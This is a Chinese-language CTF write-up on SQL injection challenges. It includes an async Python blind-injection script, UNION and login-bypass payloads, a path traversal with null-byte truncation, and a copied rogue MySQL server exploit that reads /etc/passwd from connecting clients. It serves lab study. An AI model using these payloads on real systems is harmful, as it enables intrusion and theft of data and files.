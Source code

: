 ```yaml
---
title: "SQL注入相关"
date: 2020-04-05
description: "记录CTF中遇到的SQL注入题型"
categories: [
  "CTF"
]
tags: [
  "SQL注入"
]
---
```


## [HarekazeCTF2019]Sqlite

首先给出`vote.php`和`schema.sql`

- 提示：

  1. flag位于flag表中
  2. WAF过滤`" % ' * + / < = > \ _ ` ~ -`和SQLite中大部分字符串函数

- 观察查询语句

  ```php
  $pdo = new PDO('sqlite:../db/vote.db');
  $res = $pdo->query("UPDATE vote SET count = count + 1 WHERE id = ${id}");
  if ($res === false) {
    die(json_encode(['error' => 'An error occurred while updating database']));
  }
  ```

  语句报错时返回页面不同，考虑盲注

- 查询手册发现，SQLite中 `=`可用`IS`替代，`char`考虑`hex`替代

- 因为`'`被过滤，也无法截取字符串（未找到绕过函数），无法构造字符串进行匹配。查看师傅WP发现可用trim构造十六进制中的所有字母和空串，利用`||`连接，构造hex串对`hex(flag)`进行replace替换，检测hex串长度是否变化

- 使用abs溢出引发报错，利用`case when`进行条件判断

- 出题人给出的脚本在buuoj上速度极慢，改用async重写了并发版本

```python
import binascii
import asyncio
import aiohttp

URL = 'http://5de75701-3b3e-42b4-817f-11f1c7d44743.node3.buuoj.cn/vote.php'
l = 84
table = {}
table['A'] = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)'
table['C'] = 'trim(hex(typeof(.1)),12567)'
table['D'] = 'trim(hex(0xffffffffffffffff),123)'
table['E'] = 'trim(hex(0.1),1230)'
table['F'] = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)'
table['B'] = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{table["C"]}||{table["F"]})'


res = binascii.hexlify(b'flag{').decode().upper()


async def fetch_len(session, index):
    global l
    async with session.post(URL, data={
        'id': f'abs(case(length(hex((select(flag)from(flag))))&{1<<index})when(0)then(0)else(0x8000000000000000)end)'
    }) as resp:
        print(index)
        if 'An error occurred' in await resp.text():
            l |= 1 << index


async def fetch_char(session, url, index, data):
    global res
    t = '||'.join(c if c in '0123456789' else table[c] for c in res + data)
    async with session.post(URL, data={
        'id': f'abs(case((length(replace(hex((select(flag)from(flag))),{t},trim(0,0)))IS({l})))when(1)then(0)else(0x8000000000000000)end)'
    }) as resp:
        if 'An error occurred' in await resp.text():
            res += data
            raise Exception("Done")


async def main():
    async with aiohttp.ClientSession() as session:
        # task = [fetch_len(session, index) for index in range(16)]
        # await asyncio.gather(*task)
        print('[+] length:', l)
        for i in range(len(res), l):
            try:
                task = [fetch_char(session, URL, i, x) for x in '0123456789ABCDEF']
                await asyncio.gather(*task)
            except Exception as e:
                print(e)
            print(f'[+] flag ({i}/{l}): {res}')
        print('[+] flag:', binascii.unhexlify(res).decode())


asyncio.run(main())
```

> SQLite中爆表名可使用`"select sql from sqlite_master where tbl_name=‘table_name’ and type=‘table’ "`

## [b01lers2020]Life on Mars

- 题面十分奇妙，扫扫扫没有扫到泄露，观察逻辑发现请求`query?search=`查询数据，推断SQL注入

- 尝试了传统的各种语句，均返回`1`，结合返回的结果类似`table`，想到SQL语句可能并非常见的`where`形式

- 多次尝试后，发现直接后接`order by`可以回显

  ```sql
  /query?search=utopia_basin order by 1
  ```

  推测是查询语句是`SELECT * FROM search`，直接`union`联合注入

- 常规流程：爆库，爆表，爆字段

- 最终payload：

  ```sql
  /query?search=utopia_basin UNION SELECT 1, code FROM alien_code.code
  ```

## 某入群题

### STAGE1:

- 盲猜SQL注入，fuzz一波

- WAF比较独特，ban掉了圆括号，大多数注入语句都无法使用

  虽然过滤了单引号，但是测试发现可以用`\`转义`username`字段的反引号，实现逃逸。

- 手工测试逻辑，发现可以重复注册相同用户名，有多条记录时会报错。查询逻辑是：先查询`username`和`password`，然后`fetch`验证信息，与传参比对

- 推测注册语句: `insert into xxx values xxx`

  登录语句: `select question, token from xxx where username='xxx' and password='xxx'`

- 测试发现没有盲注和报错，过滤了`'` `union` `select` `0x` `()`，几乎无法使用函数，也无法构造字符串，`like`等模糊匹配也全被ban掉，陷入僵局

- 本地测试发现`0b`类似`0x`，可以作为二进制字符串使用，但是写完脚本发现跑不出来，查资料发现，`mysql8`以下版本，`BIT`串默认作为整数，无法利用

  > 在mysql8之前，bit函数和操作符只是支持64位的整数(bigint)，返回值也是64位的整数(bigint)。所以最大支持到64位。非bigint参数会被转化成bigint，然后参与操作，所以可能会发生截断。

- 重新考虑可控点，现在拥有可以逃逸的`insert`和`select`语句，显然`select`更加易于利用，翻看文档仔细研究`select`的语句结构

  ```mysql
  SELECT
      [ALL | DISTINCT | DISTINCTROW ]
        [HIGH_PRIORITY]
        [STRAIGHT_JOIN]
        [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
        [SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
      select_expr [, select_expr ...]
      [FROM table_references
        [PARTITION partition_list]
      [WHERE where_condition]
      [GROUP BY {col_name | expr | position}, ... [WITH ROLLUP]]
      [HAVING where_condition]
      [WINDOW window_name AS (window_spec)
          [, window_name AS (window_spec)] ...]
      [ORDER BY {col_name | expr | position}
        [ASC | DESC], ... [WITH ROLLUP]]
      [LIMIT {[offset,] row_count | row_count OFFSET offset}]
      [INTO OUTFILE 'file_name'
          [CHARACTER SET charset_name]
          export_options
        | INTO DUMPFILE 'file_name'
        | INTO var_name [, var_name]]
      [FOR {UPDATE | SHARE} [OF tbl_name [, tbl_name] ...] [NOWAIT | SKIP LOCKED]
        | LOCK IN SHARE MODE]]
  ```

  一开始查看的是网上的文档，版本较低，发现`group by`存在排序关键字`ASC | DESC`，但是测试后发现只能由主键排序（似乎存在争议，没有深究），还是无法利用

- 仔细研究了所有关键字，发现`group by`的`with rollup`可以构造出NULl值，再用`having`/`limit`，在`token`字段fetch出`NULL`值，即可绕过

- payload:

  ```mysql
  username=\&password= || 1 group by token with rollup limit 2,1; -- &question=1
  ```

### STAGE2:

- 登陆后，研究一波后台功能

- 抓API：

  ```
  http://7f44a6e2-8439-449a-b37e-57be0d53782f.node3.buuoj.cn/admin/page/json.php?dt=alldata&name={filename}&page=1&limit=15
  ```

- 显眼的`X-Powered-By: PHP/5.2.17`，%00截断，路径穿越读取根目录，发现flag位置

- 任意文件读取则是利用备份界面的连接测试功能

  [mysql任意文件读](https://www.cnblogs.com/apossin/p/10127496.html)

- 抄一个exp:

  ```python
  #coding=utf-8 
  import socket
  import logging
  logging.basicConfig(level=logging.DEBUG)
    
  filename="/etc/passwd"
  sv=socket.socket()
  sv.bind(("",3306))
  sv.listen(5)
  conn,address=sv.accept()
  logging.info('Conn from: %r', address)
  conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
  conn.recv(9999)
  logging.info("auth okay")
  conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
  conn.recv(9999)
  logging.info("want file...")
  wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
  conn.sendall(wantfile)
  content=conn.recv(9999)
  logging.info(content)
  conn.close()
  ```

> 踩坑：buuoj靶机的mysql需要修改`/etc/mysql/mysql.conf.d/mysqld.cnf`中的`bind-address`为`0.0.0.0`